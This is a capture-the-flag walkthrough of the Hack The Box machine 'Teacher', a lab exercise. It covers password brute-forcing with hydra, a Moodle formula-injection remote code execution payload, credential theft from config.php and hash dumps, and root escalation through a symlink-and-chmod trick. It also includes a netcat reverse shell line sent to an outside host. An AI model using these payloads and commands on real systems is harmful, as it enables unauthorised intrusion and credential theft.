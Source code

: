 1,Recon
Port scan
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Blackhat highschool
|_http-server-header: Apache/2.4.25 (Debian)
```

Enumerating valid uri
```
/images               (Status: 301) [Size: 313] [--> http://10.10.10.153/images/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.153/css/]
/manual               (Status: 301) [Size: 313] [--> http://10.10.10.153/manual/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.153/js/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.10.153/javascript/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.153/fonts/]
/phpmyadmin           (Status: 403) [Size: 277]
/moodle               (Status: 301) [Size: 313] [--> http://10.10.10.153/moodle/]
/server-status        (Status: 403) [Size: 277]
```

`/moodle` seems like our target and it would redirect to `http://teacher.htb/moodle/`
![](images/Pasted%20image%2020241104075221.png)

And also we can extra information from `Wappalyzer`
![](images/Pasted%20image%2020241104075448.png)

The version of LMS is `Moodle`

And by enumerating the web service ,we found 
`http://teacher.htb/moodle/lib/ajax/`
![](images/Pasted%20image%2020241104080358.png)

And also, I found something wired from `/images`
![](images/Pasted%20image%2020241104080934.png)
`5.png` seems like a not normal size picture, and when we open it, it would drop the error
![](images/Pasted%20image%2020241104081042.png)
That means we could not check it directly, so let's check it from the source code of original page.
We found it from `view-source:http://teacher.htb/gallery.html`

`<li><a href="[#](view-source:http://teacher.htb/gallery.html#)"><img src="[images/5.png](view-source:http://teacher.htb/images/5.png)" onerror="console.log('That\'s an F');" alt=""></a></li>`

However I find it, 5.png isn’t an image, but a note:
```
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```

From the note I know all but the last character of the password to log into something.
I’ll use python to generate passwords:
```
python3 -c 'import string; print("\n".join([f"Th4C00lTheacha{c}" for c in string.printable[:-5]]))' > passwords
```

Now I’ll use hydra to try them and find the password:
```
hydra -l Giovanni -P passwords 10.10.10.153 http-post-form "/moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&rememberusername=1:Invalid login"                 
```

Or we can use `burpsuite Intruder` to check them.
![](images/Pasted%20image%2020241104082012.png)
And we get the password `Giovanni:Th4C00lTheacha#`

By searching the exploits of `Moodle, we found `Moodle 3.4.1 - Remote Code Execution from exploit-db

```
CVE-2018-1133 was a vulnerability that allows any user in the teacher role to get remote code execution through Moodle. The vulnerability is in the part of the code that allows a teacher to define a problem like “What is {x} + {y}?”, and have different x and y for each student. Moodle picks a random x and y, and then gets the answer by calling php’s eval() on the formula input. So if I can poison the input, I can get it to run my code. The post gives the following string that will give execution and bypass filters:

/*{a*/`$_GET[0]`;//{x}}

```

That means we can use this payload in the quiz creating page



2,switch to the valid user
when we successfully get the shell, we would be in `/var/www/html/moodle/question`
And we can find the database certificate in the `config.php`
```
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8mb4_unicode_ci',
);

$CFG->wwwroot   = 'http://teacher.htb/moodle';
$CFG->dataroot  = '/var/www/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!

```

Then we can get some hashes of password for the valid users:
```
guest:$2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO
admin:$2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2
giovanni:$2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO
Giovannibak | 7a860966115182402ed06375cf0a22af
```
Then we can get the valid certificate `Giovannibak:expelled`

When we check the `/etc/passwd`, we found the user `giovanni`
`giovanni:x:1000:1000:Giovanni,1337,,:/home/giovanni:/bin/bash`

3, shell as root
we can use `su` to switch to this valid user.
Then I found there is no command `sudo`, so we could not found what can we do as root
So pspy would be a great way to check what is going on in the background
![](images/Pasted%20image%2020241121044657.png)
There is a `backup.sh` always run in the background by root.
```
giovanni@teacher:~$ ls -al /usr/bin/backup.sh
-rwxr-xr-x 1 root root 138 Jun 27  2018 /usr/bin/backup.sh

giovanni@teacher:~$ cat /usr/bin/backup.sh 
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```

We can only read this script, and I think `chmod` would be our target because it has use 777.

In this place, I’m going to take advantage of the fact that I can write symlinks pointing to directories / files I don’t own. From man chmod:
```
chmod never changes the permissions of symbolic links; the chmod system call cannot change their permissions. This is not a problem since the permissions of symbolic links are never used. However, for each symbolic link listed on the command line, chmod changes the permissions of the pointed-to file. In contrast, chmod ignores symbolic links encountered during recursive directory traversals
chmod 永远不会更改符号链接的权限； chmod 系统调用无法更改其权限。这不是问题，因为符号链接的权限从未被使用过。但是，对于命令行上列出的每个符号链接，chmod 都会更改指向文件的权限。相反，chmod 会忽略递归目录遍历期间遇到的符号链接
```
it will only follow symlinks that are directly referenced by the command line (after wildcard expansion).

So if I create a symbolic link in ~/work/tmp, the thing it points to will have it’s permissions changed.
`ln -s /usr/bin/backup.sh `
After a minute, we would find
`-rwxrwxrwx 1 root root 138 Jun 27  2018 /usr/bin/backup.sh`

Then we can add a reverse shell to get the root shell.
`echo "nc -e /bin/bash 10.10.16.10 443" >> /usr/bin/backup.sh`

Or, if I wanted to be blunt, I could just point it at /, and let chmod recursively give me (and everyone else) access to the entire filesystem.
`ln -s /root`
Then wait for a minute, we got:
`drwxrwxrwx  3 root root  4096 Nov 21 08:56 root`